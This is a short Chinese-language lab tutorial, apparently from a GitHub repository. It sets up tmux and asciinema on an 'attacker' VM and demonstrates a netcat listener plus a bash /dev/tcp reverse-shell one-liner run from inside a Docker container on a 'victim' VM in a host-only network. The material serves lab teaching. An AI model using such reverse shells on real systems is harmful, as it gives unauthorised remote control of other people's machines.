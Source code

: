 在虚拟机 attacker 上安装 tmux 和 asciinema :

```shell
sudo apt install tmux asciinema
```

tmux 的简单使用 :

```shell
# 建立名为 session_name 的会话
tmux new -s session_name 

# 先 Ctrl + B, 再 % : 左右分屏
# 先 Ctrl + B, 再 " : 上下分屏

# 先 Ctrl + B, 再 D : 切换回原先终端环境

# 切换回 session_name 会话中
tmux a -t session_name 

```

在 attacker 虚拟机中先简单布置两个终端窗口, 一个为 attacker 本身, 另一个通过 ssh 连接到 victim 虚拟机.

在 attacker 终端窗口上 :

```shell
ip a 
# 查看 host-only 网卡 IP 地址

nc -l -p 7777

# 当可以进入 victim 虚拟机的容器后 :

ls
ls /tmp
ps aux

```

在 victim 终端窗口上 :

```shell
# 查看当前运行中的容器
sudo docker ps

# 复制目标容器名

# 进入容器 agitated_curie 内
sudo docker exec -it agitated_curie /bin/bash     

# 进入容器后, 执行 :
bash -i >& /dev/tcp/192.168.5.134/7777 0>&1 
# 这里的 192.168.5.134 为 attacker 虚拟机 host-only 网卡对应 IP 地址
```

录制的 asciinema 视频 :
